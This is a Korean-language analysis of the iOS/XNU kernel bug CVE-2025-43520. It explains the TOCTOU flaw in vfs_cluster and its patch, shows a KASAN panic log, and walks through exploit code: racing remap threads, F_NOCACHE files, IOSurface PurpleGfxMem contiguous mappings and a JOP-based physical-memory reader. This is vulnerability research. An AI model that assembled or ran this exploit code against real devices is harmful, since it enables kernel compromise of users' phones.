# CVE-2025-43520

# Muirey님이 분석한 취약점 설명 요약

### Source

[https://gist.github.com/Muirey03/8c8370258e32bafaf99e72ec90258c8d](https://gist.github.com/Muirey03/8c8370258e32bafaf99e72ec90258c8d)

```bash
CVE-2025-43520 - DarkSword

1. `cluster_read_ext`와 `cluster_write_ext`는 수행할 IO 작업을 결정하기 위해 `cluster_io_type`을 호출합니다.
2. `cluster_io_type`은 `UPL_QUERY_OBJECT_TYPE`과 함께 `vm_map_get_upl`을 호출하여, 사용자 제공 가상 주소 범위를 뒷받침하는 `vm_object`의 유형을 쿼리합니다.
3. 이 객체가 물리적으로 연속적(physically contiguous)이면 `IO_CONTIG`를 반환하고, 그렇지 않으면 `IO_DIRECT` 또는 `IO_COPY`를 반환합니다.
4. `cluster_io_type`이 `IO_CONTIG`를 반환하면, `cluster_[read|write]_ext`는 연속형 변체인 `cluster_[read|write]_contig`를 호출합니다.
5. 그 후 `cluster_[read|write]_contig`는 `uio`로부터 UPL을 가져오기 위해 `vm_map_get_upl`을 두 번째로 호출합니다.
6. 이어서 `upl_phys_page`를 사용하여 UPL에서 첫 번째 물리 페이지를 가져온 뒤 물리적 복사(physical copy)를 수행합니다.
7. 이는 **TOCTOU**(Time-of-Check Time-of-Use) 취약점입니다. 공격자는 `vm_map_get_upl`에 대한 첫 번째 호출 이후 해당 영역이 더 이상 물리적으로 연속되지 않도록 가상 주소 범위를 재매핑(remap)할 수 있으며, 이는 물리 메모리에 대한 **OOBR/OOBW**(Out-of-Bounds Read/Write)를 유발합니다.

패치:

index 806e747ac..c5dee0a7c 100644
--- a/bsd/vfs/vfs_cluster.c
+++ b/bsd/vfs/vfs_cluster.c
@@ -3689,6 +3697,14 @@ next_cwrite:
 	}
 	num_upl++;
 
+	if (!(upl_flags & UPL_PHYS_CONTIG)) {
+		/*
+		 * The created UPL needs to have the UPL_PHYS_CONTIG flag.
+		 */
+		error = EINVAL;
+		goto wait_for_cwrites;
+	}
+
@@ -6082,6 +6102,14 @@ next_cread:
 	}
 	num_upl++;
 
+	if (!(upl_flags & UPL_PHYS_CONTIG)) {
+		/*
+		 * The created UPL needs to have the UPL_PHYS_CONTIG flag.
+		 */
+		error = EINVAL;
+		goto wait_for_creads;
+	}
+
```

# KASAN 커널에서 익스플로잇 실행해보기

KASAN 커널 환경에서 익스플로잇해보면, `getsockopt` 에서 OOB read가 발생하는 것을 감지한다. 익스플로잇 코드 중 `find_and_corrupt_socket`  함수의 `getsockopt` 에서 패닉이 나는 것으로 추정된다.

```bash
KCOV: Disabling coverage tracking. System panicking.
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleSynopsysMIPIDSIController
IOPlatformPanicAction -> AppleS8000MemCacheController
IOPlatformPanicAction -> RTBuddy
panic(cpu 1 caller 0xfffffff028a0ac98): KASan: invalid 8-byte load from 0xfffffff028e6c000 [GLOBAL_RZ]
 Shadow             0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f
 fffffffe051cd7b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 fffffffe051cd7c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 fffffffe051cd7d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 fffffffe051cd7e0: 00 f9 f9 f9 f9 f9 f9 f9 f9 f9 f9 f9 01 f9 f9 f9
 fffffffe051cd7f0: f9 f9 f9 f9 00 f9 f9 f9 f9 f9 f9 f9 00 f9 f9 f9
 fffffffe051cd800:[f9]f9 f9 f9 00 f9 f9 f9 f9 f9 f9 f9 00 f9 f9 f9
 fffffffe051cd810: f9 f9 f9 f9 04 f9 f9 f9 f9 f9 f9 f9 04 f9 f9 f9
 fffffffe051cd820: f9 f9 f9 f9 00 f9 f9 f9 f9 f9 f9 f9 00 00 00 00
 fffffffe051cd830: 00 00 f9 f9 f9 f9 f9 f9 00 00 00 00 00 00 00 00
 fffffffe051cd840: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 fffffffe051cd850: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

 @kasan-report.c:114
Debugger message: panic
Device: N71m
Hardware Model: iPhone8,1
ECID: [REDACTED]
Boot args: -v keepsyms=1 debug=0x2014e launchd_unsecure_cache=1 launchd_missing_exec_no_panic=1 amfi=0xff amfi_allow_any_signature=1 amfi_get_out_of_my_way=1 amfi_allow_research=1 amfi_unrestrict_task_for_pid=1 amfi_unrestricted_local_signing=1 ...
Memory ID: 0x1
OS release type: User
OS version: 19A346
Kernel version: Darwin Kernel Version 21.1.0: Wed Sep 29 23:50:59 PDT 2021; root:xnu_kasan-8019.40.96.0.2~7/KASAN_ARM64_S8000
KernelCache UUID: 782FF2B774A11E4A410959C96EB5BD87
Kernel UUID: 7DE98EC0-EB87-3ADF-9511-B7FBDCF8432D
iBoot version: iBoot-7429.42.1
secure boot?: NO
Paniclog version: 13
Kernel slide:      0x000000001fdb8000
Kernel text base:  0xfffffff026dbc000
mach_absolute_time: 0x1531ac4e9
Epoch Time:        sec       usec
  Boot    : 0x69de752e 0x00012cf6
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x69de75f8 0x000214b9

Zone info:
Foreign   : 0xfffffff0e25ec000 - 0xfffffff0e2600000
Native    : 0xfffffff0e4000000 - 0xfffffff6e4000000
Readonly  : 0 - 0
Metadata  : 0xfffffff7ab774000 - 0xfffffff7acf7c000
Bitmaps   : 0xfffffff7acf7c000 - 0xfffffff7ad818000
CORE 0: PC=0xfffffff027879f64, LR=0xfffffff02787a054, FP=0xfffffff0172efc00
CORE 1 is the one that panicked. Check the full backtrace for details.
Panicked task 0xfffffff288b0a8c0: 1808 pages, 3 threads: pid 362: ds15
Panicked thread: 0xfffffff28a065cf0, backtrace: 0xfffffff01834ef60, tid: 5608
                  lr: 0xfffffff0274cb8a4  fp: 0xfffffff01834eff0    // _handle_debugger_trap+0x460
                  lr: 0xfffffff0278da25c  fp: 0xfffffff01834f010    // _kdp_trap+0x20
                  lr: 0xfffffff0278b511c  fp: 0xfffffff01834f170    // _sleh_synchronous+0xd6c
                  lr: 0xfffffff0278b15b4  fp: 0xfffffff01834f180    // _fleh_synchronous+0x28
                  lr: 0xfffffff0274cb07c  fp: 0xfffffff01834f530    // _DebuggerTrapWithState+0x48
                  lr: 0xfffffff0274cbe98  fp: 0xfffffff01834f5a0    // _panic_trap_to_debugger+0x278
                  lr: 0xfffffff0289f346c  fp: 0xfffffff01834f5c0    // _panic+0x30
                  lr: 0xfffffff028a0ac98  fp: 0xfffffff01834f5f0    // _kasan_report_internal.cold.1+0x34
                  lr: 0xfffffff0289ea790  fp: 0xfffffff01834f690    // _kasan_report_internal+0x264
                  lr: 0xfffffff0289ea300  fp: 0xfffffff01834f6c0    // _kasan_crash_report+0x38
                  lr: 0xfffffff0289ea528  fp: 0xfffffff01834f8f0    // _kasan_violation+0x21c
                  lr: 0xfffffff027896c78  fp: 0xfffffff01834f9e0    // _copy_validate+0x288
                  lr: 0xfffffff02789741c  fp: 0xfffffff01834fa10    // _copyout+0x30
                  lr: 0xfffffff0283c9ba4  fp: 0xfffffff01834fbd0    // _sogetoptlock+0x49c
                  lr: 0xfffffff0283eb288  fp: 0xfffffff01834fd20    // _getsockopt+0x328
                  lr: 0xfffffff028672c88  fp: 0xfffffff01834fdb0    // _unix_syscall+0x69c
                  lr: 0xfffffff0278b4ad0  fp: 0xfffffff01834ff10    // _sleh_synchronous+0x720
                  lr: 0xfffffff0278b15b4  fp: 0xfffffff01834ff20    // _fleh_synchronous+0x28

** Stackshot Succeeded ** Bytes Traced 184793 (Uncompressed 446256) **
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleSynopsysMIPIDSIController
IOPlatformPanicAction -> AppleS8000MemCacheController
IOPlatformPanicAction -> RTBuddy
IOPlatformPanicAction -> AppleEmbeddedNVMeController
IOPlatformPanicAction -> AppleARMWatchdogTimer
IOPlatformPanicAction -> AppleNubSynopsysOTG3Device
IOPlatformPanicAction -> AppleSynopsysMIPIDSIController
IOPlatformPanicAction -> AppleS8000MemCacheController
IOPlatformPanicAction -> RTBuddy

Please go to https://panic.apple.com to report this panic
Waiting for hardware shared memory debugger, handshake structure is at virt: 0xfffffff0063b4000, phys 0x8141c0000
```

# 익스플로잇 코드 살펴보기

## init_globals

```objectivec
int kexploit_opa334(void) {
    // to support various iOS 17 - 26 versions
    offsets_init();
    
    init_globals();
    ...
}
```

```objectivec
#define GETSOCKOPT_READ_LEN 32
#define TARGET_FILE_SIZE (PAGE_SIZE * 0x2)

NSMutableArray<NSNumber *> *socketPorts;
NSMutableArray<NSNumber *> *socketPcbIds;
void *getsockoptReadData = NULL;
NSMutableDictionary<NSNumber *, id> *gMlockDict;
void *default_file_content;
uint64_t randomMarker;
uint64_t wiredPageMarker;

...

void init_globals(void) {
    socketPorts = [NSMutableArray new];
    socketPcbIds = [NSMutableArray new];
    getsockoptReadData = calloc(1, GETSOCKOPT_READ_LEN);
    gMlockDict = [NSMutableDictionary new];
    default_file_content = calloc(1, TARGET_FILE_SIZE);
    randomMarker = (uint64_t)0x1337133845464748;
    wiredPageMarker = (uint64_t)arc4random() << 32 | arc4random();
}
```

전역변수를 선언하고 NSMutableArray, NSMutableDictionry 등등 new 메소드를 통해 객체를 할당해준다.

`getsockoptReadData`는 32바이트, `default_file_content` 는 2페이지의 크기인 0x8000만큼 할당시킨다. 

`randomMarker`의 경우, 0x1337133845464748값이라는 시그니처를 지정해주고, 
`wiredPageMarker`는 `pe_v2`에서 다루기 떄문에, 여기선 신경쓰지 않겠다.

## pe_init (part 1)

```objectivec
int kexploit_opa334(void) {
    ...
        printf("[+] Running on non-A18/M4 device\n");
        pe_init();
    ...
```

```objectivec
void pe_init(void) {
    init_target_file();

    ...
}
```

### init_target_file / create_target_file

```objectivec
#define TARGET_FILE_SIZE (PAGE_SIZE * 0x2)

void create_target_file(const char *path) {
    FILE *f = fopen(path, "w");
    fwrite(default_file_content, 1, TARGET_FILE_SIZE, f);
    fclose(f);
}

void init_target_file() {
    char *read_file_path = calloc(1, 1024);
    char *write_file_path = calloc(1, 1024);
    confstr(_CS_DARWIN_USER_TEMP_DIR, read_file_path, 1024);
    confstr(_CS_DARWIN_USER_TEMP_DIR, write_file_path, 1024);

    char read_file_name[100];
    char write_file_name[100];
    snprintf(read_file_name, 100, "/%u", arc4random());
    snprintf(write_file_name, 100, "/%u", arc4random());

    strcat(read_file_path, read_file_name);
    strcat(write_file_path, write_file_name);

    create_target_file(read_file_path);
    create_target_file(write_file_path);

    readFd = open(read_file_path, O_RDWR);
    writeFd = open(write_file_path, O_RDWR);

    printf("[+] readFd: %d\n", readFd);
    printf("[+] writeFd: %d\n", writeFd);

    remove(read_file_path);
    remove(write_file_path);
    fcntl(readFd, F_NOCACHE, 1);
    fcntl(writeFd, F_NOCACHE, 1);
}
```

`read_file_path`, `write_file_path`를 살펴보면,`confstr` 함수에 `_CS_DARWIN_USER_TEMP_DIR` 인자를 넘겨, 현재 사용자 전용 임시 디렉토리 경로를 가져와 지정해준다.

iOS 앱에서 실행할 경우, 다음과 같다.

```
read_file_path = /private/var/mobile/Containers/Data/Application/C6C908E1-BF1D-4B29-AD91-D8D658783931/tmp/
write_file_path = /private/var/mobile/Containers/Data/Application/C6C908E1-BF1D-4B29-AD91-D8D658783931/tmp/
```

다음으로, `arc4random()` 함수를 이용해 랜덤 파일명을 2개 생성해 `read_file_name`, `write_file_path`에 각각 지정해준다. 마찬가지로 실행시 다음과 같다.

```
read_file_name = /929420839
write_file_name = /33692626
```

`strcat`으로 파일 경로와 파일명을 합친다.

```
read_file_path = /private/var/mobile/Containers/Data/Application/C6C908E1-BF1D-4B29-AD91-D8D658783931/tmp//929420839
write_file_path = /private/var/mobile/Containers/Data/Application/C6C908E1-BF1D-4B29-AD91-D8D658783931/tmp//33692626
```

`create_target_file`에서 `fopen`으로 합쳐진 파일경로에 각각 파일 2개를  생성하고, 
`open`으로 R/W모드로 연 2개의 파일 디스크립터를 획득하여 `readFd`, `writeFd` 디스크립터값을 지정해준다.

이후로는 파일 2개를 삭제하고, `fcntl`로 파일 디스크립터의 속성을 `F_NOCACHE` 플래그를 활성화해준다.

`fcntl`은 커널의 `sys_fcntl_nocancel` 에서 처리하며, `fileproc`에서 차례로 접근하여 `fg_flag` 필드에 `FNOCACHE`를 세트시킨다.

```c
// xnu-8019.41.5/bsd/sys/fcntl.h
#ifdef KERNEL
#define FNOCACHE        0x00040000      /* fcntl(F_NOCACHE, 1) */
#define FNORDAHEAD      0x00080000      /* fcntl(F_RDAHEAD, 0) */
#endif

// xnu-8019.41.5/bsd/kern/kern_descrip.c
int
sys_fcntl_nocancel(proc_t p, struct fcntl_nocancel_args *uap, int32_t *retval)
{
	switch (cmd) {
	case F_NOCACHE:
		if (fp->f_type != DTYPE_VNODE) {
			error = EBADF;
			goto out;
		}
		if (uap->arg) {
			os_atomic_or(&fp->fp_glob->fg_flag, FNOCACHE, relaxed);
		} else {
			os_atomic_andnot(&fp->fp_glob->fg_flag, FNOCACHE, relaxed);
		}
		goto out;
	}
out:
	return sys_fcntl_out(p, fd, fp, error);
}

static int
sys_fcntl_out(proc_t p, int fd, struct fileproc *fp, int error)
{
	fp_drop(p, fd, fp, 1);	// Drop the I/O reference previously taken by calling fp_lookup
	proc_fdunlock(p);		// Unlock the lock previously locked by a call to proc_fdlock()
	return error;
}
```

나중에 보면 알겠지만, 
커널에서 `vn_read`, `vn_write`를 수행할때 `fg_flag`필드에 `FNOCACHE`가 세트되있다면,  
`ioflag`에 `IO_NOCACHE` 를 세트시켜준다..

```c
// xnu-8019.41.5/bsd/vfs/vfs_vnops.c
/*
 * File table vnode read routine.
 */
static int
vn_read(struct fileproc *fp, struct uio *uio, int flags, vfs_context_t ctx)
{
	int ioflag;
	...
	if ((fp->fp_glob->fg_flag & FNOCACHE) || vnode_isnocache(vp)) {
		ioflag |= IO_NOCACHE;
	}
	...
}

/*
 * File table vnode write routine.
 */
static int
vn_write(struct fileproc *fp, struct uio *uio, int flags, vfs_context_t ctx)
{
	int error, ioflag;
	...
	if ((fp->fp_glob->fg_flag & FNOCACHE) || vnode_isnocache(vp)) {
		ioflag |= IO_NOCACHE;
	}
	...
}
```

init_file_target 함수를 간단하게 그림으로 나타내면 아래와 같다.



## pe_init (part 2)

실행 파일 이름이 포함된 전체 실행경로를 가져오고, 
실행 파일 이름만을 추출해 `executableName`에 지정한다.

```c
char executablePath[PATH_MAX];
const char *executableName;

void pe_init(void) {
		...
    if (!executableName) {
        uint32_t sz = PATH_MAX;
        _NSGetExecutablePath(executablePath, &sz);
        executableName = strrchr(executablePath, '/');
        if (executableName) {
            executableName++;
        } else {
            executableName = executablePath;
        }
    }
    ...
}
```

## pe_init (part 3)

비동기적으로 수행할 수 있게끔 쓰레드를 생성한다. 

`freeThreadStart`, `goSync`,  `raceSync` 가 0이 아닐때에만 `mach_vm_map`을 호출한다.

`VM_FLAGS_FIXED | VM_FLAGS_OVERWRITE` 옵션을 통해 메모리를 맵핑하는데, 
`VM_FLAGS_FIXED`는 "정확히 지정한 특정 주소에 매핑하라", 
`VM_FLAGS_OVERWRITE`는 "해당 주소에 이미 매핑이 있으면 **기존 매핑을 제거하고 덮어써라**"는 의미가 담겨있다. 
`freeTarget`을 기준으로 고정된 특정 주소에 맵핑된다.

```c
volatile uint8_t goSync = 0;
volatile uint8_t raceSync = 0;
volatile uint8_t freeThreadStart = 0;
volatile mach_vm_address_t freeTarget = 0;
volatile mach_vm_size_t freeTargetSize = 0;
volatile mem_entry_name_port_t targetObject = 0;
volatile memory_object_offset_t targetObjectOffset = 0;

void *free_thread(void *arg) {
    while (freeThreadStart == 0)
        ;

    while (goSync == 0)
        ;

    while (goSync != 0) {
        while (raceSync == 0)
            ;

        kern_return_t kr =
            mach_vm_map(mach_task_self(), &freeTarget, freeTargetSize, 0,
                        VM_FLAGS_FIXED | VM_FLAGS_OVERWRITE, targetObject,
                        targetObjectOffset, 0, VM_PROT_DEFAULT, VM_PROT_DEFAULT,
                        VM_INHERIT_NONE);

        if (kr != KERN_SUCCESS) {
            printf("[-] mach_vm_map failed !!!\n");
            printf("[+] freeTarget: %#llx\n", freeTarget);
            printf("[+] targetObject: %#x\n", targetObject);
            FAILURE(0);
        }

        raceSync = 0;
    }

    return NULL;
}

void pe_init(void) {
    ...
    pthread_attr_t pattr;
    pthread_attr_init(&pattr);
    pthread_attr_set_qos_class_np(&pattr, QOS_CLASS_USER_INITIATED, 0);
    pthread_create(&freeThread, &pattr, free_thread, NULL);
}
```

## pe_v1 (part 1)

```c
void pe_v1(void) {
    uint64_t totalSearchMappingPagesNum = (0x100 * 0x10);
    uint64_t searchMappingSize = 0x2000 * PAGE_SIZE);
    uint64_t totalSearchMappingSize = totalSearchMappingPagesNum * PAGE_SIZE;
    uint64_t searchMappingNum = totalSearchMappingSize / searchMappingSize;

    printf("[i] totalSearchMappingPagesNum: %#llx\n",
           totalSearchMappingPagesNum);
    printf("[i] searchMappingSize: %#llx\n", searchMappingSize);
    printf("[i] totalSearchMappingSize: %#llx\n", totalSearchMappingSize);
    printf("[i] searchMappingNum: %#llx\n", searchMappingNum);
    ...
}
```

```c
[i] totalSearchMappingPagesNum: 0x10000
[i] searchMappingSize: 0x8000000
[i] totalSearchMappingSize: 0x40000000
[i] searchMappingNum: 0x8
```

## pe_v1 (part 2)

```c
#define OOB_SIZE 0xf00

void pe_v1(void) {
		...
    void *readBuffer = calloc(1, OOB_SIZE);
    void *writeBuffer = calloc(1, OOB_SIZE);
    initialize_physical_read_write(OOB_PAGES_NUM * PAGE_SIZE);
```

### initialize_physical_read_write (part 1)

`contiguous_mapping_size = (OOB_PAGES_NUM * PAGE_SIZE)
= (2 * 0x4000)
= 0x8000`

```c
mach_port_t pcObject = MACH_PORT_NULL;
mach_vm_address_t pcAddress = 0;
mach_vm_size_t pcSize;

uint64_t randomMarker;
volatile mach_vm_address_t freeTarget = 0;
volatile mach_vm_size_t freeTargetSize = 0;
volatile uint8_t goSync = 0;
volatile uint8_t freeThreadStart = 0;

void initialize_physical_read_write(uint64_t contiguous_mapping_size) {
    pcSize = contiguous_mapping_size;
    create_physically_contiguous_mapping(&pcObject, &pcAddress, pcSize);
    ...
}
```

### create_physically_contiguous_mapping

(`kIOSurfaceAllocSize`의 경우 0x8000이다.

`size` = `pcSize` = `contiguous_mapping_size` = `OOB_PAGES_NUM` * `PAGE_SIZE` )

```c
void create_physically_contiguous_mapping(mach_port_t *port,
                                          mach_vm_address_t *address,
                                          mach_vm_size_t size) {
    NSDictionary *params = @{
        (__bridge id)kIOSurfaceAllocSize : @(size),
        @"IOSurfaceMemoryRegion" : @"PurpleGfxMem",
    };

    IOSurfaceRef surface = IOSurfaceCreate((__bridge CFDictionaryRef)params);

    if (!surface) {
        printf("[-] Failed to create surface!!!\n");
        FAILURE(0);
    }

    void *physicalMappingAddress = IOSurfaceGetBaseAddress(surface);
    printf("[+] physicalMappingAddress: %p\n", physicalMappingAddress);

    mach_port_t memoryObject;
    kern_return_t kr = mach_make_memory_entry_64(
        mach_task_self(), &size, (mach_vm_address_t)physicalMappingAddress,
        VM_PROT_DEFAULT, &memoryObject, 0);
    if (!surface) {
        printf("[-] mach_make_memory_entry_64 failed!!!\n");
        FAILURE(0);
    }

    mach_vm_address_t newMappingAddress;
    kr = mach_vm_map(mach_task_self(), &newMappingAddress, size, 0,
                     VM_FLAGS_ANYWHERE | VM_FLAGS_RANDOM_ADDR, memoryObject, 0,
                     0, VM_PROT_DEFAULT, VM_PROT_DEFAULT, VM_INHERIT_NONE);

    if (kr != KERN_SUCCESS) {
        printf("[-] mach_vm_map failed!!!\n");
        FAILURE(0);
    }

    CFRelease(surface);
    *port = memoryObject;
    *address = newMappingAddress;
}
```

`IOSurfaceCreate`는 최종적으로 `IOConnectCallMethod`으로 커널 함수 호출을 시도한다.
`IOSurfaceRoot` 서비스를 통해 외부 메소드 호출을 하며, 
먼저 커널에서 13(0xd)번 셀렉터 메소드인 `IOSurfaceRootUserClient::s_get_limits`를 호출한다.

```c
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
  * frame #0: 0x00000001927128a8 IOKit`IOConnectCallMethod
    frame #1: 0x00000001b1c9ce74 IOSurface`<redacted> + 2176
    frame #2: 0x00000001def2fae0 libsystem_pthread.dylib`<redacted> + 68
    frame #3: 0x00000001def1f2dc libsystem_platform.dylib`<redacted> + 28
    frame #4: 0x00000001def2b1a4 libsystem_pthread.dylib`pthread_once + 92
    frame #5: 0x00000001b1c9a128 IOSurface`IOSurfaceClientCreateChild + 120
    frame #6: 0x00000001b1c9db20 IOSurface`<redacted> + 76
    frame #7: 0x0000000100ba84c0 CVE-2025-43520`___lldb_unnamed_symbol63 + 236
    frame #8: 0x0000000100ba8544 CVE-2025-43520`___lldb_unnamed_symbol64 + 124
    frame #9: 0x0000000100ba8008 CVE-2025-43520`main + 8
    frame #10: 0x0000000100d14190 dyld`start + 444
(lldb) reg read x1
      x1 = 0x000000000000000d
```

```c
__int64 __fastcall IOSurfaceRootUserClient::s_get_limits(
        IOSurfaceRootUserClient *this,
        IOSurfaceRootUserClient *a2,
        IOExternalMethodArguments *a3)
{
  IOSurfaceGetLimitsResult *structureOutput; // x8
  struct IOSurfaceRoot *provider; // x9

  structureOutput = (IOSurfaceGetLimitsResult *)a3->structureOutput;
  provider = this->provider;
  *(_OWORD *)&structureOutput->idk0 = *(_OWORD *)&provider->idkAC;
  structureOutput->idk10 = provider->idkBC;
  structureOutput->idk14 = this->idk13E;
  structureOutput->flag = 1;
  a3->structureOutputSize = 0x18;
  return 0;
}
```

### IOSurfaceRootUserClient::create_surface

그 다음이 중요한데, 커널에서 0번 셀렉터 메소드인 `IOSurfaceRootUserClient::s_create_surface`를 호출하는 것을 알 수 있다.

```c
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
  * frame #0: 0x00000001927128a8 IOKit`IOConnectCallMethod
    frame #1: 0x00000001b1c9a170 IOSurface`IOSurfaceClientCreateChild + 192
    frame #2: 0x00000001b1c9db20 IOSurface`<redacted> + 76
    frame #3: 0x0000000100ba84c0 CVE-2025-43520`___lldb_unnamed_symbol63 + 236
    frame #4: 0x0000000100ba8544 CVE-2025-43520`___lldb_unnamed_symbol64 + 124
    frame #5: 0x0000000100ba8008 CVE-2025-43520`main + 8
    frame #6: 0x0000000100d14190 dyld`start + 444
(lldb) reg read x1
      x1 = 0x0000000000000000
```

이는 내부적으로 아래 함수들을 거치게 된다.
`IOSurfaceRootUserClient::s_create_surface`
→ `IOSurfaceRootUserClient::create_surface`
→ `IOSurfaceRoot::createSurface`
→ `IOSurface::init`
→ `IOSurface::parse_properties`

아래 사진과 같이
익스플로잇 코드에서 사용된 `IOSurfaceCreate`함수의 매개변수인 `kIOSurfaceAllocSize`, `IOSurfaceMemoryRegion` 키/값은 `IOSurface::parse_properties` 에서  파싱해서 가져온다.



여기서 알아두어야할 점은 "PurpleGfxMem” 영역은 GPU 전용 예약 영역으로써, /vram이라는 펌웨어의 물리 메모리의 특정 영역에 존재한다. GPU/디스플레이 전용으로 예약된 공간이라고 보면 될 듯 싶다.

[Trigon 익스플로잇](https://alfiecg.uk/2025/03/01/Trigon.html#experimentation)에서도 활용된 적 있으며, IOSurface.kext의 “PurpleGfxMem” 문자열을 역참조해보면 `IOSurfaceRoot::start` 함수를 찾을 수 있다. “/vram”이라는 경로 문자열을 받아 IOKit 레지스트리 트리에서 그 경로에 해당하는 노드를 찾는다. 그래서 해당 PurpleGfxMem 영역은 /vram에 있다는 것을 알 수 있다.

```c
bool __fastcall IOSurfaceRoot::start(IOSurfaceRoot *this, IOService *a2)
{
  ...
  v15 = IORegistryEntry::fromPath("/vram", gIODTPlane, 0, 0, 0);
  if ( v15 )
  {
    if ( v14 )
      v16 = 256;
    else
      v16 = 1024;
    ((void (__fastcall *)(IORegistryEntry *))v15->release_0)(v15);
    v17 = this->idk_138;
    v18 = &this->_ioservice_header.__vftable + v17;
    v18[34] = (IOService_vtbl *)"vram";
    v18[36] = (IOService_vtbl *)"PurpleGfxMem";
    *(_DWORD *)&this->_placeholder_for_shared_bitmap[4 * v17 + 32] = v16;
    ++this->idk_138;
  }
  ...
}
```

`ioreg` 명령어로 vram 영역에 대한 물리메모리 베이스 주소와 크기를 알 수도 있었다.

```c
iPad-7th-generation:~ root# ioreg -n vram -r
+-o vram@BB5EC000  <class IOPlatformDevice, id 0x100000115, registered, matched, active, busy 0 (101 ms), $
    {
      "IODeviceMemory" = (({"address"=37503287296,"length"=44040192}))
      "reg" = <00c05ebb080000000000a00200000000>
      "name" = <"vram">
      "AAPL,phandle" = <16000000>
      "device_type" = <"vram">
    }
```

그래서 아래 해당부분의 코드를 다시 한번 살펴보자면, 
펌웨어에 있는 /vram이라는 위치의 PurpleGfxMem이라는 GPU/디스플레이 전용 예약 공간이 존재하는데, 해당 공간의 `kIOSurfaceAllocSize`(0x8000) 크기만큼 할당받아 사용자공간에서 활용할 수 있도록 맵핑해준다고 보면 될 듯 싶다. 

`IOSurfaceCreate`로 인해 맵핑된 사용자공간 주소는 `IOSurfaceGetBaseAddress`를 통해 알아낼 수 있다.

```c
void create_physically_contiguous_mapping(mach_port_t *port,
                                          mach_vm_address_t *address,
                                          mach_vm_size_t size) {
    NSDictionary *params = @{
        (__bridge id)kIOSurfaceAllocSize : @(size),
        @"IOSurfaceMemoryRegion" : @"PurpleGfxMem",
    };

    IOSurfaceRef surface = IOSurfaceCreate((__bridge CFDictionaryRef)params);

    if (!surface) {
        printf("[-] Failed to create surface!!!\n");
        FAILURE(0);
    }

    void *physicalMappingAddress = IOSurfaceGetBaseAddress(surface);
    printf("[+] physicalMappingAddress: %p\n", physicalMappingAddress);
```

그리고 후반부 코드에서는 실제로 맵핑되어 데이터가 동기화되는지 확인하기 위해 아래 코드를 작성해보았다.

맵핑된 사용자공간 주소에 0x1337… 시그니처를 PAGE_SIZE 만큼 쓴 다음, /vram 물리주소 베이스에서 해당 시그니처를 찾도록 만들었다.

(`physread64` 함수의 경우, jop chain을 만들어  `ml_phys_read_data` 커널 함수를 호출해서 물리 데이터를 읽도록 구현함.)

```objectivec
bool get_vram_info(uint64_t *outPA, uint64_t *outSize)
{
    io_registry_entry_t entry = IORegistryEntryFromPath(
        kIOMainPortDefault, "IODeviceTree:/vram");
    if (entry == MACH_PORT_NULL) return false;

    CFDataRef reg = (CFDataRef)IORegistryEntryCreateCFProperty(
        entry, CFSTR("reg"), kCFAllocatorDefault, 0);
    IOObjectRelease(entry);

    if (!reg) return false;

    const uint64_t *v = (const uint64_t *)CFDataGetBytePtr(reg);
    *outPA   = v[0];
    *outSize = v[1];

    CFRelease(reg);
    return true;
}

void create_physically_contiguous_mapping(mach_port_t *port,
                                          mach_vm_address_t *address,
                                          mach_vm_size_t size) {
    ...
    void *physicalMappingAddress = IOSurfaceGetBaseAddress(surface);
    printf("[+] physicalMappingAddress: %p\n", physicalMappingAddress);

#if ENABLE_HELPER
    uint64_t sig = 0x1337133713371337;
    memset_pattern8(physicalMappingAddress, &sig, PAGE_SIZE);

    uint64_t vram_pa_base = 0;
    uint64_t vram_sz = 0;
    uint64_t physicalMappingAddress_pa = 0;
    if (get_vram_info(&vram_pa_base, &vram_sz)) {
        printf("[HELPER] vram_pa_base: 0x%llx, vram_sz: 0x%llx\n", vram_pa_base, vram_sz);
        for(uint64_t i = vram_pa_base; i <= (vram_pa_base+vram_sz); i+=PAGE_SIZE) {
            if(physread64(i) == sig) {
                printf("[HELPER] Found sig at vram_pa@0x%llx\n", i);
                physicalMappingAddress_pa = i;
                break;
            }
        }
    }
    printf("[HELPER] physicalMappingAddress: 0x%llx -> pa: 0x%llx\n", (uint64_t)physicalMappingAddress, physicalMappingAddress_pa);
    phexdump(physicalMappingAddress_pa-0x1000, 0x8000);
    memset(physicalMappingAddress, 0, PAGE_SIZE);
    ...
#endif
```

실제로 실행해서 확인해보면, 
사용자영역의 주소인 0x100170000 → /vram 영역의 물리 주소인 0x8bdf4c000과 맵핑되는 것을 알 수 있다.

```c
...
[+] physicalMappingAddress: 0x100170000
[HELPER] vram_pa_base: 0x8bb5ec000, vram_sz: 0x2a00000
[HELPER] Found sig at vram_pa@0x8bdf4c000
[HELPER] physicalMappingAddress: 0x100170000 -> pa: 0x8bdf4c000

...
[0x00000008bdf4b000+0xff0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0x00000008bdf4b000+0x1000] 37 13 37 13 37 13 37 13  37 13 37 13 37 13 37 13  |  7.7.7.7.7.7.7.7. 
[0x00000008bdf4b000+0x1010] 37 13 37 13 37 13 37 13  37 13 37 13 37 13 37 13  |  7.7.7.7.7.7.7.7.
...
[0x00000008bdf4b000+0x4ff0] 37 13 37 13 37 13 37 13  37 13 37 13 37 13 37 13  |  7.7.7.7.7.7.7.7. 
[0x00000008bdf4b000+0x5000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
...
```



`IOSurfaceGetBaseAddress`를 통해 맵핑된 사용자영역의 주소를 가져온 이후에는
한번 더 메모리 맵핑을 생성한다.

